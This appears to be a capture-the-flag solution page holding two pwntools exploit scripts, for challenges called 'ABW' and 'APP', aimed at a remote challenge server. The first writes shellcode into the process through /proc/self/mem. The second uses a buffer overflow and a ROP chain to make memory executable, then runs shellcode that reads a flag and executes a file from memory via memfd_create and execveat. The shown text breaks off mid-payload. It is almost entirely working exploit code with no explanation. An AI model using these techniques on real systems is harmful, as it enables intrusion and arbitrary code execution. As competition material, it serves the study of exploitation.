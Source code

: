 ### ABW
```python=
from pwn import *
context.arch = "amd64"

r  = remote("34.82.101.212", 10010)

r.sendlineafter(":","/proc/self/mem")
r.sendlineafter(":",str(0x4b0f40))
payload = asm("""
push rax
pop rdi
push rsp
pop rsi
push 0x60
pop rdx
syscall
ret
""")
print len(payload)
r.sendlineafter(":",payload.encode("hex"))
r.send(p64(0x0000000000421872)+p64(0x4112af)+p64(0x41f4e0))
r.interactive()
```

### APP
```python=
from pwn import *
context.arch = "amd64"
#r = process('./run.sh')
r  = remote("34.82.101.212", 10011)
#0x0000000000474a05: syscall; ret;
#0x000000000044b9d9: pop rdx; pop rsi; ret;
#0x0000000000415234: pop rax; ret;
#0x0000000000400686: pop rdi; ret;
#0x000000000043ff98: add al, 7; ret;
payload = "a"*0x108

payload += flat(
0x415234,3,0x43ff98,0x400686,0x006b6000,0x44b9d9,0x7,0x6000,0x474a05,
0x415234,0,0x400686,0,0x44b9d9,0x1000,0x006b6000,0x474a05,0x006b6000
)

r.sendline(payload)
r.send(asm(shellcraft.cat("flag1")+
shellcraft.pushstr("Joker")+
"""
mov rax,319
mov rdi,rsp
mov rsi,0
syscall
mov rbx,rax
mov rbp,rax"""+
shellcraft.pushstr("#!/read_flag\n")+
shellcraft.syscall('SYS_write','rbp','rsp',13)+
"""
push 0
mov rsi,rsp
xor rdx,rdx
xor r10,r10
mov r8,0x1000
mov rax,322
syscall
```
